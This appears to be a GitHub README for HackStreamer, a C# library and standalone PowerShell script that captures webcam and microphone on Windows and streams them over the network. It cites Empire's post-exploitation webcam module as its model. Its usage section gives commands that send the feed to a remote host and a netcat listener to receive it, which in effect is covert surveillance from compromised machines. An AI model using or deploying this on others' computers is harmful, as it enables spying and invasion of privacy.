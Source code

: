 # HackStreamer
is a webcam🎥+audio🎤 tcp/udp-based streamer from Windows machines.

## WHAT DOES IT DO?
It can stream from webcam/audio devices locally or to a remote host or save the stream to a local file.

## WHY
Because of fun. Once I hacked my own machine and wanted to get a stream from webcam.
But I couldn't. So, then I didn't find the solution and forgot about it for some time.
Recently I remembered it again and started looking for a solution.
Though this project is written in c#, and uses such terms like media filters,
I knew nothing about it at all. I had 0 knowledge in c# and so about the filters.
During the work I learned some basic stuff.

## HOW IT WAS DONE
I was looking for solutions on the internet and the most suitable what I found
was a solution from [Empire Framework](https://github.com/EmpireProject/Empire/blob/master/lib/modules/powershell/collection/WebcamRecorder.py)
But it only could write the stream to a file on a local disk.
Though I liked their idea of including a dll library into a powershell script.
I found the source of that library, it was released in 2002.
I was considering many variants like this one, avicap32.dll or Windows Media Foundation.
And stopped at DirectShow from 2002, as I supposed this should be the most 
supportable.
This project is a compilation of countless internet solutions that I found
while developing it and my own efforts. But it works :)
When the main part responsible for streaming itself was ready I faced another problem.
It could stream or be watched only from Windows based services. So I wrote custom WriterSink,
which can stream over network.
I tested my solution on Windows 7 and Windows 10.

## WHAT'S INCLUDED
Here you can find the source code of the library, it uses `.NET Framework 2.0`
And a ready-to-go-all-included-fully-independent `ps1` script. You can see the basic usage in that script.

## USAGE
The common part on the streaming server should be:
```powershell
> $streamer = new-object Hack.HackStreamer
```

### Then if you want to stream **locally**:
```powershell
> $streamer.Init(@{share=1337})
```
And on the other side:
```sh
$ nc <streaming_host> 1337 | ffplay -
```

### Or if you want to stream **to a remote server**:
Set up a listener:
```sh
$ nc -lnp 4111 | ffplay -
```
Then init:
```powershell
> $streamer.Init(@{send="10.10.13.37:4111"})
```

And the final part:
```powershell
> $streamer.Run()
```